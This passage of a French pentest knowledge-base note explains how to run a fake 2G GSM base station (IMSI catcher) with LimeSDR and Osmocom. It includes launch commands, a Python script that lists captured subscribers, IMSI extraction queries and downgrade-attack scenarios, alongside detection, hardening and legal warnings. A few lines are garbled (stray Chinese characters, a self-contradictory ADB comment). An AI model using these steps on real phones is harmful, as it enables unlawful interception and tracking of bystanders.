| Action | Commande | Résultat attendu |
|---|---|---|
| Éditer openbsc.cfg | `nano openbsc.cfg` | Config réseau OK |
| Vérifier ARFCN | `grep arfcn openbsc.cfg` | ARFCN 100 (ou autre) |

### Étape 4 — Lancement

| Action | Commande | Résultat attendu |
|---|---|---|
| Terminal 1 | `sudo osmo-trx-lms` | "LMS: Init OK" |
| Terminal 2 | `osmo-nitb` | "BSC: Ready" |
| Terminal 3 | `osmo-bts-trx` | "BTS: Ready" |

### Étape 5 — Post-exploitation

| Action | Commande | Résultat attendu |
|---|---|---|
| Lister abonnés | `telnet 127.0.0.1 4242` → `show subscriber all` | Liste IMSI/extension |
| Envoyer SMS | `subscriber ... sms sender ... send "msg"` | SMS reçu sur téléphone |

---

## 🎬 Scénarios avancés

### Scénario 1 — Démo IMSI Catcher pour audit sécurité

| Élément | Détail |
|---|---|
| **Objectif** | Démontrer la vulnérabilité 2G dans un environnement corporate |
| **Matériel** | LimeSDR Mini v2, antenne GSM 900 MHz, cage de Faraday, téléphone Android |
| **Étapes** | 1. Monter la BTS en mode accept-all 2. Forcer le téléphone en 2G 3. Intercepter IMSI 4. Capturer le SMS en clair |
| **Résultat** | Preuve que les appareils 2G exposent IMSI + SMS en clair |
| **Difficulté** | ⭐⭐⭐⭐ |


### Scénario 2 — Test de rétrogradation 2G (Downgrade Attack)

| Élément | Détail |
|---|---|
| **Objectif** | Vérifier si les appareils corporatifs acceptent la rétrogradation vers 2G |
| **Matériel** | LimeSDR USB, antenne directionnelle, PC portable |
| **Étapes** | 1. Scanner les fréquences GSM locales 2. Émettre une fausse BTS sur ARFCN libre 3. Observer les téléphones qui se connectent 4. Documenter les IMSI/MSISDN collectés |
| **Résultat** | Liste des appareils vulnérables à la rétrogradation 2G |
| **Difficulté** | ⭐⭐⭐⭐ |

---

## 🛡️ Cybersecurity use cases

| Use case | Sévérité | Matériel requis | Impact |
|---|---|---|---|
| IMSI Catcher démo | Haute | LimeSDR + antenne GSM | Preuve de concept de l'interception |
| Test rétrogradation 2G | Moyenne | LimeSDR + PC | Identification des appareils vulnérables |
| Interception SMS | Haute | LimeSDR + cage de Faraday | Lecture des SMS en clair (2G) |
| Audit réseau GSM | Moyenne | LimeSDR + SIM | Vérification de la sécurité du roaming |

| Phase pentest | Ce que permet cette technique |
|---|---|
| Recon | Collecte des IMSI/MSISDN des appareils à proximité |
| Accès initial | Connexion non autorisée au réseau GSM |
| Maintien d'accès | BTS persistante pour interception continue |
| Évasion | 2G ne supporte pas les mécanismes de sécurité modernes (pas de mutual auth) |

---

## 🎯 MITRE ATT&CK

| Technique ID | Nom | Catégorie | Applicabilité |
|---|---|---|---|
| T1200 | Hardware Additions | Initial Access | Ajout de LimeSDR + antenne pour créer une BTS |
| T1195.002 | Supply Chain Compromise: Compromise Software Dependencies | Initial Access | Firmware LimeSDR ou Osmocom compromis |
| T1078 | Valid Accounts | Initial Access | Utilisation de SIM.Sysmocom avec accès légitime |
| T1552.001 | Credentials In Files: Credentials In Files | Credential Access | IMSI intercepté en clair sur le canal 2G |



### Mapping détaillé

| Phase MITRE | Technique | Cette fiche couvre |
|---|---|---|
| Initial Access | T1200 Hardware Additions | Installation du LimeSDR comme BTS |
| Credential Access | T1552.001 | Interception IMSI/MSISDN via le canal 2G |
| Collection | T1119 Automated Collection | Collecte des IMSI connectés via la console |
| Lateral Movement | T1078 | Utilisation des credentials interceptés |

---

## 🛡️ Defensive Security

### Détection

| Signal de détection | Source | Fiabilité |
|---|---|---|
| Changement de cellule inattendu | Logs téléphone (Android) | Moyenne |
| IMSI inconnu dans le réseau | Logs HLR/SGSN | Haute |
| Émissions RF anormales | Détection spectre | Faible (requiert antenne) |
| Connexion à un opérateur inconnu | Logs opérateur | Haute |

| Indicateur | Log / Capteur | Seuil d'alerte |
|---|---|---|
| Nouveau MCC/MNC | Logs de connexion | Tout changement |
| Signal RF anormal | Spectrum analyzer | Détection d'émission non-standards |
| IMSI non reconnu | HLR logs | Nouvel IMSI |

### Prévention

| Mesure | Efficacité | Coût | Priorité |
|---|---|---|---|
| Désactiver la 2G sur les appareils | Élevée | Faible | Haute |
| Détection d'IMSI catchers | Moyenne | Moyenne | Moyenne |
| VPN obligatoire | Élevée | Moyenne | Haute |
| Chiffrement E2E des communications | Élevée | Faible | Haute |
| Monitoring des changements de réseau | Moyenne | Faible | Moyenne |

### Durcissement (hardening)

```bash
# Android : désactiver la 2G (Settings > Network > Preferred network type > 4G/5G only)
# iOS : Settings > Cellular > Voice & Data > 5G On / LTE

# Sur Android via ADB :
adb shell settings put global preferred_network_mode 9  # LTE/3G/2G (auto)
# Mode 9 = LTE only (selon la version Android)

# Vérifier que le téléphone n'accepte pas la rétrogradation 2G
# En mode développement > Réseau > Mode réseau préféré
```

---

## 🤖 Automatisation

### Scripts d'exploitation

```python
#!/usr/bin/env python3
"""Automatisation complète : lancer la BTS et lister les abonnés."""

import subprocess
import telnetlib
import time
import sqlite3

def start_stack():
    """Lance les 3 composants de la stack Osmocom."""
    procs = []
    procs.append(subprocess.Popen(["sudo", "osmo-trx-lms"], stdout=subprocess.PIPE))
    time.sleep(3)
    procs.append(subprocess.Popen(["osmo-nitb"], stdout=subprocess.PIPE))
    time.sleep(2)
    procs.append(subprocess.Popen(["osmo-bts-trx"], stdout=subprocess.PIPE))
    return procs

def query_subscribers():
    """Interroge la console OpenBSC pour lister les abonnés."""
    tn = telnetlib.Telnet("127.0.0.1", 4242)
    tn.read_until(b"OpenBSC> ")
    tn.write(b"show subscriber all\n")
    result = tn.read_until(b"OpenBSC> ").decode()
    tn.write(b"exit\n")
    return result

if __name__ == "__main__":
    print("[*] Démarrage de la stack Osmocom...")
    procs = start_stack()
    print("[*] BTS active. En attente des connexions...")
    time.sleep(30)
    print("[*] Liste des abonnés connectés :")
    print(query_subscribers())
```

### Outils d'automatisation

| Outil | Usage | Lien |
|---|---|---|
| osmo-trx-lms | Frontend radio LimeSDR | osmocom.org |
| osmo-nitb | Network In A Box | osmocom.org |
| LimeSuite | Pilotes et configuration LimeSDR | myriadsrf.com |
| GNU Radio | Traitement de signal avancé | gnuradio.org |
| gr-gsm | Démodulation GSM via GNU Radio | osmocom.org |

### Intégration dans des frameworks

| Framework | Méthode d'intégration |
|---|---|
| Custom framework | Scripts Python + telnetlib pour contrôle OpenBSC |
| GNU Radio | Blocs Osmocom pour traitement de signal |
| Metasploit | Pas d'intégration native (utiliser scripts Python) |

---

## 📤 Output et parsing

### Formats de sortie

| Format | Exemple | Utilité |
|---|---|---|
| Texte (telnet) | `show subscriber all` | Liste des abonnés |
| SQLite | `hlr.sqlite3` | Base d'abonnés persistante |
| CSV (export) | Script Python → CSV | Analyse post-session |
| GSMTAP | Logs Wireshark via GSMTAP | Analyse de protocole |

### Parsing des résultats

```bash
# Extraire les IMSI de la base SQLite
sqlite3 hlr.sqlite3 "SELECT imsi, extension FROM Subscriber;"

# Exporter en CSV
sqlite3 -header -csv hlr.sqlite3 "SELECT * FROM Subscriber;" > subscribers.csv

# Filtrer les connexions récentes (via logs)
grep -i "location update" /var/log/osmocom/*.log
```

### Intégration SIEM / Logging

| Source | Format | Pipeline |
|---|---|---|
| osmo-nitb logs | Syslog / stderr | Log rotation → ELK |
| hlr.sqlite3 | SQLite | Python scraper → SIEM |
| GSMTAP output | PCAP | Wireshark → analyse |

---

## 🔗 Intégrations

- [[13 - Hardware & IoT|⚙️ Hardware & IoT]] global
- [[Hardware - SDR|📡 SDR]] — Vue d'ensemble SDR
- [[Hardware - Flipper Zero|🏴‍☠️ Flipper Zero]] — Outil RF complémentaire
- [[Hardware - RFID et NFC|🏷️ RFID/NFC]] — Autres protocoles RF

| Outils associés | Usage complémentaire |
|---|---|
| Wireshark + GSMTAP | Analyse des trames GSM interceptées |
| GNU Radio | Traitement de signal avancé |
| gr-gsm | Démodulation et décodage GSM |
| QGIS + cellid | Cartographie des BTS |

| Intégration | Comment |
|---|---|
| Wireshark | Capture via GSMTAP pour analyser les trames Um |
| GNU Radio | Blocs Osmocom pour créer des chaînes de traitement personnalisées |
| GPS | Géolocalisation de la BTS pour cartographie |

---

## 🔄 Alternatives

| Alternative | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| HackRF One + Osmocom | Fréquence plus large (1 MHz–6 GHz) | Half-duplex, moins de channels | BTS sur bandes non-GSM |
| USRP B200 + OpenBTS | Performances radio supérieures | Prix (~$1500), complexité | BTS multi-standard |
| BladeRF | Full-duplex, FPGA intégré | Support Osmocom limité | Recherche avancée |
| gr-gsm + RTL-SDR | Démodulation GSM en RX uniquement | Pas de TX, RX only | Écoute passive GSM |



---

## ⚡ Performance

| Métrique | Valeur | Impact |
|---|---|---|
| Vitesse de décodage GSM | 30.72 MSPS | Sufficient pour 1 carrier |
| Latence (TX→RX) | < 1 ms | Indetectable pour les téléphones |
| Portée (antenne standard) | 50–200 m (en lab) | Suffisant pour la démo |
| Nombre de timeslots | 8 (par carrier) | 8 canaux simultanés |
| Nombre de téléphones | ~8 par carrier | Limite du TDMA GSM |

### Optimisations

| Technique | Gain | Complexité |
|---|---|---|
| Antenne directionnelle | Portée ×3 | Faible |
| Ampli TX externe | Puissance ×10 | Moyenne |
| RX gain optimal | Sensibilité +10 dB | Faible |
| RT-prio (root) | Stabilité BTS | Faible |

---

## 🛠️ Troubleshooting

| Problème | Cause probable | Solution |
|---|---|---|
| LimeSDR non détecté | Pilote non installé ou USB défaillant | `LimeUtil --find`, vérifier USB 3.0 |
| BTS instable | Pas de priorité temps réel | Lancer `osmo-trx-lms` en root (`sudo`) |
| Téléphone ne se connecte pas | MCC/MNC incompatible avec la SIM | Vérifier le MCC de la SIM (doit correspondre) |
| Nom opérateur non affiché | Comportement normal Android | Le nom n'apparaît qu'après connexion |
| Pas de son en通话 | Timeslot TCH non configuré | Vérifier `phys_chan_config TCH/F` |

### Erreurs courantes

```
Erreur : "LMS: Open failed"
Cause : LimeSDR non connecté ou déjà utilisé par un autre process
Solution : Débrancher/rebrancher, tuer les process osmo-trx-lms existants

Erreur : "BTS: No such ARFCN"
Cause : ARFCN hors de la plage supportée par le matching network
Solution : Utiliser ARFCN dans la plage 1-124 pour GSM 900

Erreur : "Subscriber not found"
Cause : IMSI non enregistré dans hlr.sqlite3
Solution : Créer l'abonné via la console : subscriber create imsi <IMSI>
```

### Diagnostic

```bash
# Vérifier la connexion USB
lsusb | grep Lime

# Vérifier les logs osmo-trx-lms
sudo osmo-trx-lms 2>&1 | head -50

# Vérifier l'état de la BTS
telnet 127.0.0.1 4242 -e "" -c "show bts"

# Vérifier les abonnés
telnet 127.0.0.1 4242 -e "" -c "show subscriber all"

# Vérifier les timeslots
telnet 127.0.0.1 4242 -e "" -c "show timeslot"
```

---

## 🔐 Sécurité

| Risque | Impact | Mitigation |
|---|---|---|
| Émission RF non autorisée | Délit pénal | Utiliser une cage de Faraday |
| Interception de données | Violation de la vie privée | Limiter le lab à des appareils autorisés |
| Rétrogradation 2G | Compromission des téléphones | Désactiver la 2G sur les appareils |
| Console OpenBSC exposée | Accès non autorisé à la stack | Binder sur 127.0.0.1 uniquement |

> [!warning] Points de sécurité
> - Ne jamais émettre hors d'une cage de Faraday sans autorisation officielle
> - La console OpenBSC (telnet 4242) n'est pas authentifiée : ne pas l'exposer sur le réseau
> - Les IMSI/MSISDN collectés sont des données personnelles sensibles (RGPD)
> - Le chiffrement A5/0 (désactivé) rend les communications interceptables en clair

### Restrictions légales

> [!danger] Cadre légal
> L'exploitation d'une fausse BTS GSM est **illégale** dans la plupart des pays sans autorisation expresse (licence radio, autorisation du régulateur). En France, l'article 323-1 du Code pénal punit l'accès non autorisé aux systèmes de traitement automatisé de données. L'usurpation de station de base est un délit spécifique. Seule une cage de Faraday isolée RF rend les tests légalement acceptables.

---

## ⚠️ Limitations

| Limite | Impact | Contournement |
|---|---|---|
| GSM uniquement (2G) | Pas de tests 3G/4G/5G | Utiliser des outils spécialisés (srsRAN pour 4G) |
| Portée limitée (50–200 m) | Lab uniquement | Ampli TX externe (légalement contraint) |
| Un seul carrier | ~8 canaux simultanés | LimeSDR USB + MIMO pour 2 carriers |
| Pas de chiffrement A5/1/3 | La démo utilise A5/0 uniquement | Tester le brute force A5/1 (RESOURCE_LIMIT) |
| Dépendance au firmware Osmocom | Bugs possibles | Compiler depuis les sources pour les fixes |

### Cas où cette technique ne fonctionne pas

| Scénario | Raison |
|---|---|
| Téléphone 4G/5G only | Pas de support 2G, impossible de forcer la rétrogradation |
| SIM avec PIN verrouillé | L'authentification échoue |
| Hors cage de Faraday | Émission RF non légale, interférence avec les réseaux existants |
| Téléphone en mode avion | Toutes les radios désactivées |
| SIM avec MCC fixe (non compatible) | Le réseau n'apparaît pas dans la liste |

---

## 📋 Cheatsheet

```
┌─────────────────────────────────────────────────────────────────┐
│ LimeSDR BTS — Cheatsheet                                        │
├─────────────────────────────────────────────────────────────────┤
│ Détecter :     LimeUtil --find                                  │
│ Firmware :     LimeUtil --update                                │
│ TRX :          sudo osmo-trx-lms                                │
│ BTS :          osmo-bts-trx                                     │
│ NITB :         osmo-nitb                                        │
│ Console :      telnet 127.0.0.1 4242                            │
│ Abonnés :      show subscriber all                              │
│ SMS :          subscriber ... sms sender ... send "msg"          │
│ ARFCN :        100 (GSM 900)                                    │
│ Band :         GSM900                                           │
│ Auth :         accept-all                                       │
│ Config :       openbsc.cfg, osmo-bts.cfg, osmo-trx.cfg          │
└─────────────────────────────────────────────────────────────────┘
```

| Action | Commande |
|---|---|
| Détecter LimeSDR | `LimeUtil --find` |
| Mettre à jour firmware | `LimeUtil --update` |
| Lancer TRX | `sudo osmo-trx-lms` |
| Lancer BTS | `osmo-bts-trx` |
| Lancer NITB | `osmo-nitb` |
| Console OpenBSC | `telnet 127.0.0.1 4242` |
| Lister abonnés | `show subscriber all` |
| Envoyer SMS | `subscriber ... sms sender ... send "msg"` |

---

## ⚡ Quick reference

| Élément | Valeur / Commande |
|---|---|
| **Fonction** | Fausse BTS GSM 2G (Network In A Box) |
| **SDR requis** | LimeSDR Mini v2 / LimeSDR USB |
| **Fréquence** | 890–960 MHz (GSM 900) / 1710–1880 MHz (DCS 1800) |
| **ARFCN typique** | 100 (GSM 900) |
| **Logiciels** | osmo-nitb, osmo-bts-trx, osmo-trx-lms, limesuite |
| **Console** | telnet 127.0.0.1 4242 |
| **Config** | openbsc.cfg, osmo-bts.cfg, osmo-trx.cfg |
| **Base abonnés** | hlr.sqlite3 |

---

## 🔍 Détection & Défense

| Signal | Méthode de détection | Outil |
|---|---|---|
| Changement de cellule | Logs Android/iOS | System logs |
| IMSI inconnu | Logs HLR/SGSN | SIEM |
| Émission RF anormale | Spectrum analyzer | USRP, HackRF |
| Connexion opérateur inconnu | Logs opérateur | Monitoring |

| Countermeasure | Efficacité | Implémentation |
|---|---|---|
| Désactiver la 2G | Élevée | Settings → Network → 4G/5G only |
| Détection IMSI catcher | Moyenne | Applications (ex. AIMSICD) |
| VPN obligatoire | Élevée | Politique IT |
| Chiffrement E2E | Élevée | Signal, WhatsApp |

> [!tip] Défense
> La défense la plus efficace contre les IMSI catchers 2G est de **désactiver complètement la 2G** sur tous les appareils corporatifs. La 2G ne supporte pas l'authentification mutuelle (le téléphone ne vérifie pas l'identité de la BTS), ce qui rend la rétrogradation vers une fausse BTS toujours possible.

---

## ⚠️ Tips & Pièges

- **Légalité** : construire/exploiter une fausse BTS hors cage de Faraday est un **délit** (usurpation d'identité opérateur, interception). Lab RF fermé uniquement.
- **`accept-all` + MCC réel** = tous les téléphones proches basculent sur ta BTS (rétrogradation 2G). Utilise un MCC/MNC **fictif** (901/70 = non attribué).
- Sur certaines SIM, le **MCC doit matcher la SIM** pour que le réseau apparaisse dans la liste.
- Le **nom de l'opérateur n'apparaît qu'après connexion** — ne t'étonne pas si le téléphone affiche d'abord « 724 70 ».
- `osmo-trx-lms` en **root** = priorité temps réel, indispensable sur **Raspberry Pi** (latence jitter = BTS instable).
- Les scripts SMS pilotent la **console OpenBSC via telnet (127.0.0.1:4242)** — c'est une surface d'attaque du lab en soi.
- **L'IMSI identifie l'abonné de façon unique** dans la base sqlite : c'est l'identifiant de suivi à manipuler.
- Vérifie toujours que ton ARFCN est dans la **bonne plage** pour ta bande (1–124 pour GSM 900).
- En lab partagé, kill les process osmo existants avant de relancer : `pkill -f osmo-trx-lms`.

> [!tip] Astuces
> - Utilise un **MCC/MNC fictif** (901/70) pour éviter les interférences avec les réseaux existants
> - Lance `osmo-trx-lms` **en root** pour la stabilité (priorité temps réel)
> - La **console OpenBSC** est accessible via Python (telnetlib) pour automatiser les tests
> - Vérifie les **logs GSMTAP** avec Wireshark pour analyser les trames GSM en temps réel

---

## 📚 References

> [!info] 📚 **Sources**
> - [HardwareAllTheThings — GSM Network: LimeSDR](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/radio-frequency/limesdr-bts.md)
> - [Creating your own GSM Network with LimeSDR](https://lucasteske.dev/2019/12/creating-your-own-gsm-network-with-limesdr/)
> - [OpenBSC: Configuration Modes](https://osmocom.org/projects/openbsc/wiki/OpenBSC#Configurations-Modes)
> - [osmobsc vty reference](https://ftp.osmocom.org/docs/latest/osmobsc-vty-reference.pdf)
> - [LimeSDR Mini v2 Documentation](https://github.com/myriadrf/LimeSDR-Mini-v2/blob/main/docs/v2.4/index.rst)
> - [Sysmocom Custom Simcard](http://shop.sysmocom.de/products/sysmousim-sjs1-4ff)
> - [LimeSDR Mini v2 Specifications](https://limemicro.com/sdr/limesdr-mini-2-0/)

### Documentation officielle

| Source | URL | Type |
|---|---|---|
| Osmocom | https://osmocom.org | Wiki + Documentation |
| LimeSDR Mini v2 | https://github.com/myriadrf/LimeSDR-Mini-v2 | Documentation HW |
| 3GPP TS 45.005 | https://www.3gpp.org/DynaReport/45005.htm | Spécification GSM频率 |
| Sysmocom | https://shop.sysmocom.de | SIM cards |

### Vidéos / Tutorials

| Titre | Auteur | Lien |
|---|---|---|
| Creating your own GSM Network with LimeSDR | Lucas Teske | https://lucasteske.dev/2019/12/creating-your-own-gsm-network-with-limesdr/ |
| HardwareAllTheThings GSM | SwisskyRepo | https://github.com/swisskyrepo/HardwareAllTheThings |

### Livres / Articles

| Titre | Auteur | Année |
|---|---|---|
| The GSM System for Mobile Communications | Mouly & Pautet | 1992 |
| GSM Security and Encryption | Sauter | 2014 |

➡️ **Liens :** [[13 - Hardware & IoT|⚙️ Hardware & IoT]] · [[Hardware - SDR|📡 SDR]] · [[Hardware - RFID et NFC|🏷️ RFID/NFC]] · [[Hardware - Flipper Zero|🏴‍☠️ Flipper Zero]]
